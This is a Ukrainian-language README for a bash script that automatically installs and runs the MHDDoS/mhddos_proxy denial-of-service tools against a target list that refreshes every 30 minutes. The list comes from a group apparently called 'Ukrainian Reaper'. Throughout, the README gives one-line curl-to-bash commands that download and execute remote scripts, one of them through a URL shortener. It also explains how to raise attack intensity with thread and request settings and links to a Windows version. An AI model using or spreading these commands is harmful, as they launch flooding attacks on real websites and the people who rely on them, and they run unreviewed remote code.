 ## 🪖 Bash скрипт (Windows, Linux, WSL2, Віртуальна машина)  

## ❕Опис

### auto_bash - скрипт на bash, що керує [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)

* Запускається однією командою в Linux і WSL2 (Windows Subsystem for Linux). Подальше втручання від користувача не обов'язкове. 
 
```
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/bash/auto_bash.sh | bash
```
* Автоматично встановлює git, python3, pip, mhddos_proxy, MHDDoS, розширений список proxy і всі залежності.

* Праюцює із базою сайтів [Українського женця](https://github.com/Aruiem234/auto_mhddos/blob/main/runner_targets).

* База цілей оновлюється кожні 30 хвилин.

* Під час запуску завжди перевіряє і завантажує оновлення mhddos_proxy і MHDDoS.

Рекомендовано використовувати на Ubuntu 20.04+ або Debian 11+. Але повинно працювати на всіх Debian похідних, наприклад Kali, а також у WSL2.

Для зупинки скрипта закрийте вікно з терміналом.

## ❕Зміна інтенсивності

Якщо скрипт дуже уповільнює ПК, або навпаки ви маєте невикористані ресурси, можна понизити, або навпаки підвищіти інтенсивність роботи скрипта. Для цього треба керувати параметром `threads`. По замовчуванню `threads = 1000`. Значення потрібно підбирати індивідуально, цифри нижче лише для прикладу. В більшості випадків рекомендується не змінювати значення параметру і використовувати команду по замовчуванню.

Щоб знизити навантаження на систему, спробуйте використати `threads = 500`

```
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/bash/auto_bash.sh | bash -s --  500
```

Щоб навантажити систему більше, спробуйте використати `threads = 2000`

```
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/bash/auto_bash.sh | bash -s --  4000
```


## ❕ Передача параметрів
```
curl -L tiny.one/autobash-test | bash -s -- -t 1000 -r 2000 -k 1 --table
```

`-t 1000` - 1000 тредів

`--rpc 2000` - 2000 rpc

`-k 1` - kill 1 hour. Завершити скрипт через 1 годину роботи

`--table` - увімкнути режим відображення данних в таблиці


## Зупинка скрипту

1. Або просто зачинити термінал.

2. Або в іншому терміналі виконати `pkill -f start.py; pkill -f runner.py` а потім натиснути CTRL+C у терміналі з скриптом.

## Запуск на Windows у powershell.

Потрібна лише Windows 7 або вище. Усе інше скрипт зробить самостійно.

https://github.com/mErlin-sp/mhddos_powershell

## Встановлення на Windows.

[Инструкція по встановленнию Python3 і Git на Windows](https://telegra.ph/Vstanovlennya-mhddos-proxy-napryamu-na-vash-komp-03-27). Не тестувалось на сумісність з auto_bash. Дозволяє як мінімум запускати mhddos_proxy командами які надаються в каналі [українського женця](https://t.me/ukrainian_reaper_ddos). У випадку помилок можна написати по координатах, залишених в кінці інструкції.
